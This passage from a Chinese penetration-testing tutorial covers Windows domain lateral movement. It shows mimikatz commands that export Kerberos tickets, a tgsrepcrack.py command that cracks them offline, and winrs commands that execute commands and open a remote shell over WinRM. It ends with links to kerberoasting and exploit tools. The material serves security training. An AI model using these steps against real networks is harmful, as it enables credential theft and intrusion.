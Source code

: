 ![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153305716.png)

##### 8.3 导出票据

mimikatz kerberos::list /export  
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153309622.png)

##### 8.4 破解服务票据：

python3 tgsrepcrack.py password.txt xxxx.kirbi![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153332193.png)

### 9.WinRM横向

WinRM代表Windows远程管理，是一种允许管理员远程执行系统管理任务的服务。默认情况下支持Kerberos和NTLM身份验证以及基本身份验证。

##### 9.1 利用条件

1、在win 2012之后(包括win 2012)的版本是默认开启的，win 2012之前利用需要手动开启winRM。

2、防火墙对5986、5985端口开放。  
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153335078.png)

##### 9.2 CMD执行

winrs -r:192.168.52.10 -u:192.168.52.10\\用户名 -p:xxxxx “ipconfig”

获取交互式shell  
winrs -r:192.168.52.10 -u:192.168.52.10\\用户名 -p:xxxxx cmd

![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153337911.png)

### 10.相关资源

https://www.freebuf.com/articles/system/174967.html

https://github.com/nidem/kerberoast

https://github.com/xan7r/kerberoast

https://github.com/SecureAuthCorp/impacket

https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools

https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068